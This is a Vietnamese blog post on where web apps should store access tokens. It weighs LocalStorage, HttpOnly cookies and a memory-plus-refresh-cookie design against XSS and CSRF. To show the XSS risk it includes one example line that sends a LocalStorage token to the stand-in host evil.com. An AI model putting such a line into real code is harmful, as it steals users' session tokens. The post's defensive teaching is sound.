



## Mở đầu: Câu hỏi tưởng đơn giản, lại chia đôi trình độ

Trong khi tìm hiểu về frontend, tôi có một câu hỏi: _"Lưu trữ access token ở đâu trên ứng dụng web?"_

Nghe qua, đây dường như là một câu hỏi nhập môn. Nhưng thực tế, nó là một chiếc "kính hiển vi" soi rõ tư duy về bảo mật và kiến trúc hệ thống của lập trình viên. Có những bạn Senior 5–7 năm kinh nghiệm vẫn lúng túng, và cũng có những bạn Junior khiến tôi bất ngờ vì sự thấu đáo trong cách tiếp cận.

Tại sao một vấn đề "vặt vãnh" như chỗ lưu trữ lại quan trọng đến thế? Hãy cùng tôi đi sâu vào mê cung của bảo mật trình duyệt.

## 1. LocalStorage: Cám dỗ của sự tiện lợi

Đa số câu trả lời tôi nhận được là:

> _"Em lưu vào LocalStorage cho tiện, vì nó không mất khi reload trang và dễ lấy ra để gắn vào Header API."_

**Sự thật là: LocalStorage không được thiết kế cho bảo mật.**

Khi bạn đặt Token vào LocalStorage, bạn đang mở toang cánh cửa cho kẻ tấn công thông qua lỗ hổng **XSS (Cross-Site Scripting)**. Chỉ cần ứng dụng của bạn dính một đoạn script độc hại (từ một thư viện npm bên thứ ba bị hack, hoặc một input không được sanitize kỹ), kẻ tấn công có thể "nẫng" mất token chỉ với một dòng code duy nhất:

```js
fetch("https://evil.com?stolen=" + localStorage.getItem("token"));
```

### Kịch bản tấn công XSS vào LocalStorage



**Cái giá của sự tiện lợi:** Bạn đổi lấy trải nghiệm mượt mà bằng một rủi ro cực lớn. Nếu ứng dụng của bạn liên quan đến tiền tệ hoặc dữ liệu cá nhân nhạy cảm, đây là một điểm trừ chí mạng.

## 2. Cookie: Lớp lá chắn "HttpOnly" và nỗi lo CSRF

Khi tôi hỏi: _"Làm sao để JavaScript không đọc được token?"_, những ứng viên cứng tay hơn sẽ trả lời: **"Dùng HttpOnly Cookie"**.

Đây là lúc chúng ta bước vào thế giới của các Flag bảo mật:

- **HttpOnly**: Ngăn chặn hoàn toàn JavaScript truy cập vào Cookie. XSS giờ đây không thể "đọc" được token nữa.
- **Secure**: Đảm bảo cookie chỉ được gửi qua HTTPS.
- **SameSite (Lax/Strict)**: Hạn chế cookie bị gửi đi trong các request xuyên domain.

### Cơ chế cô lập của HttpOnly



**Nhưng, thế giới không màu hồng.** Khi bạn dùng Cookie, bạn vừa thoát khỏi XSS thì lại va phải **CSRF (Cross-Site Request Forgery)**.

Bởi vì trình duyệt tự động gửi Cookie kèm theo request, kẻ tấn công có thể lừa người dùng nhấn vào một đường link độc hại trên một trang web khác, từ đó thực hiện một request "mạo danh" đến server của bạn.

> **Giải pháp cho CSRF**: Dùng CSRF Token, header `X-Requested-With`, hoặc cấu hình `SameSite=Strict/Lax` đúng cách.

## 3. Deep Dive: Giải pháp "Hybrid" — Sự lựa chọn của Senior

Một Senior thực sự sẽ không chọn "trắng" hoặc "đen". Họ chọn **sự kết hợp (Trade-off)**.

Giải pháp mà tôi đánh giá cao nhất trong các buổi phỏng vấn là mô hình **Silent Refresh**.

### Kiến trúc phân tầng

| Token             | Nơi lưu         | Thời gian sống  | Mục đích             |
| ----------------- | --------------- | --------------- | -------------------- |
| **Access Token**  | RAM (biến JS)   | Ngắn (15 phút)  | Gọi API              |
| **Refresh Token** | HttpOnly Cookie | Dài (7–30 ngày) | Lấy Access Token mới |

- **Access Token (Short-lived)**: Lưu trong Memory (biến JavaScript). Thời gian sống cực ngắn. Vì lưu trong RAM, XSS rất khó lấy được, và nó sẽ mất khi tắt tab/reload trang.
- **Refresh Token (Long-lived)**: Lưu trong HttpOnly Cookie. Dùng để lấy Access Token mới mà không cần bắt người dùng đăng nhập lại.

### Quy trình Silent Refresh (Vận hành thực tế)



### Tại sao cách này lại "ăn điểm"?

- ✅ **Chống XSS lấy cắp Token dài hạn**: Vì Refresh Token nằm trong HttpOnly Cookie.
- ✅ **Chống XSS chiếm quyền vĩnh viễn**: Vì Access Token trong RAM sẽ mất khi đóng trang.
- ✅ **Tối ưu UX**: Người dùng không phải đăng nhập lại nhờ cơ chế refresh ngầm.

## 4. Những sự đánh đổi (Trade-offs) — Tư duy của người làm hệ thống

Làm Engineering là làm về sự đánh đổi. Không có giải pháp hoàn hảo, chỉ có giải pháp phù hợp nhất.

| Giải pháp                | Rủi ro bảo mật         | Trải nghiệm người dùng | Độ phức tạp kỹ thuật              |
| ------------------------ | ---------------------- | ---------------------- | --------------------------------- |
| LocalStorage             | 🔴 Cao (XSS)           | ⭐ Tốt (Persistent)    | 🟢 Thấp                           |
| Cookie thuần             | 🟡 Trung bình (CSRF)   | ⭐ Tốt                 | 🟡 Trung bình                     |
| Hybrid (Memory + Cookie) | 🟢 Thấp (An toàn nhất) | ⭐ Tốt                 | 🔴 Cao (Phải xử lý logic Refresh) |

**Khi nào dùng gì?**

- **Ứng dụng To-do list cá nhân**: LocalStorage có lẽ là đủ.
- **Hệ thống ngân hàng điện tử hay E-commerce**: Triển khai Hybrid Flow hoặc thậm chí là **BFF (Backend for Frontend)** là điều bắt buộc.

## Lời kết cho các Developer

Khi tôi hỏi câu này trong buổi phỏng vấn, tôi không mong chờ một cái tên (như "LocalStorage"). Cái tôi mong chờ là **một cuộc thảo luận về Rủi ro**.

Một Senior Developer giỏi không phải là người biết nhiều công nghệ nhất, mà là người **hiểu rõ nhất cái giá phải trả cho mỗi dòng code mình viết ra**.

Lần tới, khi nhấn `localStorage.setItem()`, hãy tự hỏi bản thân: _"Mình có đang để lại một lỗ hổng cho ai đó không?"_

Hy vọng bài viết này giúp các bạn có cái nhìn sâu hơn về một vấn đề tưởng chừng như rất cũ nhưng chưa bao giờ hết nóng trong phát triển Web.
